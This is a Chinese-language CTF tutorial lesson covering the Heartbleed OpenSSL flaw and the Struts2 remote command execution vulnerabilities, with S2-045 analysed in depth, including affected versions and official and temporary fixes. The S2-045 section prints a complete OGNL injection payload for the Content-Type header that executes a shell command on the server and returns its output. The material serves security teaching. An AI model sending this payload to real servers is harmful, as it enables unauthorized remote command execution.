




# CTF夺旗赛教程：P36：38.重点漏洞分析_1 🎯


在本节课中，我们将要学习两个在CTF比赛和实际安全评估中都非常重要的历史漏洞：**心脏滴血漏洞**与**Struts2远程命令执行漏洞**。我们将分析它们的原理、影响范围、验证方法以及修复方案，帮助你理解这些经典漏洞的运作机制。


## 心脏滴血漏洞分析 ❤️🩸

上一节我们介绍了本节课的主要内容，本节中我们来看看第一个重点漏洞——心脏滴血漏洞。

心脏滴血漏洞存在于OpenSSL当中。OpenSSL是一个强大的安全套接字层密码库，包括主要的密码算法、常用的密钥和证书封装管理功能及SSL协议，并提供丰富的应用程序供测试或其他目的使用。

心脏滴血漏洞又叫Heartbleed漏洞，其CVE编号是**CVE-2014-0160**。它是OpenSSL中的一个重大安全漏洞，于2014年4月7日由国外黑客曝光。该漏洞可以让攻击者获得服务器上64K内存中的数据内容，从而泄露服务器的内存数据。泄露的数据可能包括大量敏感信息，如用户名、密码、信用卡号码等。此外，攻击者还可以复制服务器的数字密钥，随后伪造服务器或解密通信。由于使用OpenSSL源代码的网站数量巨大，该漏洞影响十分严重。



### 漏洞原理

下面看一下漏洞原理。TLS心跳由一个请求包组成，其中包括有效载荷。通信的另一方将读取这个包，并发送一个响应，其中包含同样的载荷。在处理心跳请求的代码中，载荷大小是从攻击者可控的包中读取的。由于OpenSSL并没有检查该载荷大小值，从而导致越界读取，造成了敏感信息泄露。

### 漏洞验证流程

对于该漏洞的验证，主要流程如下。

以下是验证步骤：
1.  建立Socket连接。
2.  发送TLS ClientHello请求。
3.  发送畸形Heartbleed数据包（向服务器发送畸形Heartbleed请求）。
4.  如果服务器响应会伴随有`encrypted heartbeat message`，即泄露的内存数据。
5.  检测漏洞存在。

漏洞验证的流程可以使用Python脚本来完成。这里给出一个GitHub上开源的漏洞验证脚本作为参考。

```python
# 示例性代码片段，展示漏洞验证思路
import socket
import ssl
# ... 建立连接并发送特定构造的心跳包 ...
```

### 受影响版本与修复方案

该漏洞受影响的版本相对较多。大家可以根据PPT中所列举的受影响版本及不受影响版本，对服务器中的OpenSSL是否受影响进行排查。

对于该漏洞的修复主要有两个方面。

**官方解决方案：**
OpenSSL已经发布了1.0.1g修复版本来修复此问题。因此，建议升级到OpenSSL 1.0.1g这个版本。对于OpenSSL 1.0.2-release系列的版本，厂商表示将会在1.0.2-beta2版本中进行修复。主流的Linux发行版也已经发布了相关补丁，建议尽快升级。

**临时解决方案：**
如果不能立刻安装补丁或升级，可以采取以下措施以降低风险。
*   使用 `-DOPENSSL_NO_HEARTBEATS` 选项重新编译OpenSSL。

## Struts2远程命令执行漏洞分析 ⚔️

在了解了心脏滴血漏洞后，本节中我们来看看另一个在Web领域影响深远的漏洞系列——Struts2远程命令执行漏洞。

Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个Servlet。在MVC设计模式中，Struts2作为控制器来建立模型与视图的数据交互。下面这几个漏洞是2017年被曝出来的，主要就是远程命令执行类的漏洞。从Struts2远程命令执行漏洞爆出的数量来看，Struts2这个框架存在的安全问题是相对比较多的。

以下是几个著名的Struts2漏洞简介：
*   **S2-045**：攻击者可以在使用Struts2 Jakarta Multipart插件上传文件时，修改HTTP请求头中的`Content-Type`值来触发该漏洞，导致远程执行代码。
*   **S2-046**：S2-045补丁的绕过。攻击者通过设置`Content-Disposition`的`filename`字段，或者设置`Content-Length`超过2G这两种方式来触发异常，并导致`filename`字段中的OGNL表达式得到执行，从而达到远程攻击的目的。
*   **S2-048**：Apache Struts1插件存在远程代码执行的高危漏洞。攻击者可以构造恶意的字段值，通过Struts2的Struts1插件远程执行代码。
*   **S2-052**：Struts 2.5.x以及之前的部分2.x版本的REST插件存在远程代码执行漏洞。漏洞成因是由于使用XStreamHandler反序列化XML实例时，没有任何类型过滤，导致远程代码执行。
*   **S2-053**：该漏洞源于在处理Freemarker标签时，若程序员使用了不恰当的编码表达，会导致远程代码执行。
*   **S2-054**：Apache Struts REST插件使用了过时的JSON-lib库，攻击者可以通过构造特制的JSON恶意请求，造成DoS攻击。
*   **S2-055**：由于Apache Struts2调用了存在反序列化漏洞的Jackson库，导致了反序列化漏洞的产生。

### 以S2-045为例的分析

下面以S2-045为例，分析该漏洞的利用过程以及修复方案。


S2-045漏洞是由于Struts2对错误消息处理出现了问题。攻击者通过`Content-Type`这个HTTP头注入OGNL语言，进而执行命令。Jakarta Multipart插件在解析文件上传请求过程中，当`Content-Type`格式不被识别时出现异常，导致OGNL表达式被执行。该漏洞触发点位于`LocalizedTextUtil.findText()`函数。

对于该漏洞的检测方法，主要有以下几种：
*   通过POC验证或直接查看Struts2的版本。
*   通过漏洞扫描工具进行检查。
*   通过在线检测网站进行检测。

对于该漏洞的监测，可以通过安全防护设备来进行，或定期对框架进行升级维护。



#### POC关键代码

下面我们看一下POC中的关键代码。该段代码是构造漏洞利用请求的关键部分。将该代码复制为`Content-Type`头的值，然后发送给服务器。其中，远程命令执行的代码部分用橙色字体来表示。

```
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

该漏洞受影响版本是Struts 2.3.5至2.3.31，以及Struts 2.5至2.5.10。不受影响版本是2.3.32以及2.5.10.1。



#### 修复方案

对于该漏洞的解决方案，也从两个方面来解决。

**官方解决方案：**
官方已经发布了版本更新，建议用户升级到不受影响的最新版本（如2.3.32或2.5.10.1）。

**临时修复方案：**
在用户不便进行升级的情况下，可以采取以下临时措施。
1.  **修改Struts2配置：** 修改`WEB-INF/classes`目录下的`struts.xml`配置文件，在`<struts>`标签下添加`<constant name="struts.custom.i18n.resources" value="global" />`。并在`WEB-INF/classes`目录下添加`global.properties`文件，内容为`struts.messages.upload.error.InvalidContentTypeException=1`。
2.  **配置过滤器：** 在Web应用的`web.xml`中配置过滤器，在过滤器中对`Content-Type`内容的合法性进行检测。



---


本节课中我们一起学习了两个经典的高危漏洞：**OpenSSL心脏滴血漏洞**和**Apache Struts2远程命令执行漏洞（以S2-045为例）**。我们分析了它们的产生原理、验证与利用方式、受影响范围以及官方的和临时的修复方案。理解这些历史漏洞有助于我们建立基本的安全意识，并在CTF比赛中识别和利用类似的漏洞模式。在后续课程中，我们将继续分析其他类型的重点漏洞。